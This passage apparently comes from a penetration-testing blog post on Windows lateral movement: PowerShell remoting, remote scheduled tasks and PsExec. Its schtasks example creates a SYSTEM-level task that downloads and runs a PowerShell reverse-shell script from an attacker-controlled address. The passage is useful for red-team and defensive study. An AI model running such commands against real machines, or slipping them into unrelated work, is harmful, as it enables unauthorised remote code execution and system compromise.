 ```
Enter-PSSession -Computername TAGRET
```

A block of commands can be executed in a similar fashion with `Invoke-Command`:

```
Invoke-Command -Computername TARGET -ScriptBlock {whoami /priv}
```

![](053a49b7bccceddc28a516a8c14c8241.png)


## Task Scheduler

Requires Admin | Local Group Membership | ATTACK ID
--- | --- | ---
Yes | `Administrators` | N/A

If we have local admin access to a remote system, it is possible to create scheduled tasks into the target machine. We will use the builtin utility `schtasks.exe`:

```
 schtasks /create /S TARGET /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.ps1''')'"
```

The following parameter have been used:

* `/S TATGET` to specify the remote servers
* `/SC Weekly` to set the interval of when the task should be executed
* `/RU` the user the remote task is going to run as
* `/TN` the name of the task
* `/TR` the command to execute

In order to run the previously created task, it is possible to use this command:

```
schtasks /Run /S TARGET /TN "STCheck"
```

## PsExec

Requires Admin | Local Group Membership | ATTACK ID
--- | --- | ---
Yes | `Administrators` | N/A

To understand how exactly PsExec works is outside of the scope of this post, a good reference can be found [here](https://adamtheautomator.com/psexec-ultimate-guide/amp/?__twitter_impression=true).

In order to execute commands with PsExec, the following precondition must be met:

* `File and Printer sharing` must be enabled;
* The `ADMIN$` share should be available.

To launch an interactive cmd prompt using PsExec it is possible to use the following command:
